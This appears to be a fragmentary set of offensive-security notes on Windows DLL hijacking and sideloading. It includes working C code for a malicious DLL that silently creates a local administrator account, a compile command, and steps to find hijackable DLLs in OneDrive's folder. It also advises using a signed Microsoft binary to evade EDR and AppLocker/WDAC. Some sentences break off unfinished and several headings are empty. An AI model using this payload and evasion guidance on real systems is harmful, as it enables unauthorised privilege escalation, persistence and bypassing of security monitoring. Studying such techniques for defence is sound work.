







# DLL Hijacking/Sideloading

> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!

> Additionally, DLL Hijacking bypasses application whitelisteng (applocker/WDAC) and breaks the EDR execution chain, as the DLL is loaded by a signed microsoft executable (i.e. Onedrive), dns/http requests are no longer abnormal

# DLL Hijack/Sideloading
<https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking>
The following code can be used to create a malicious DLL:

Bring your own vulnerable signed MS binary:

OLEVIEW

Why? EDR's will check if dll's loaded by LOL windows binaries happen from the right directory - by dropping a signed binary that is not present on the file system, we evding that detection.

Additionally OLEVIEW will

```csharp
#include <windows.h>
 
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user localadmin Password1 /add");
        system("cmd.exe /k net localgroup administrators localadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```
Compile with:

```code
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
```

# DLL Hijacking
onedrive -> Appdata -> cscapi.dll

- writeable by all users
- hijackable

> EXPORTS -> use exported functions in your dll (csharp dll's don't have a dllmain function)

### 1. NIRSOFT ddlexport viewer



### 2. ROHITAB API Monitor


### 3. SYSINTERNALS Process Monitor


### 4. DUMPBIN (Visual Studio)

Check which function onedrive actually imports from VERSION.dll

Open a visual studio developer prompt:



```bash
cd C:\Users\Threatadmin\AppData\Local\Microsoft\OneDrive
dumpbin OneDrive.exe /imports:VERSION.dll
```



# AUTOMTING DLL Sideloadble applications
<https://github.com/Cybereason/siofra>




<https://hijacklibs.net/>

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell



# BYOB (Bring Your own Binary)
OLEVIEW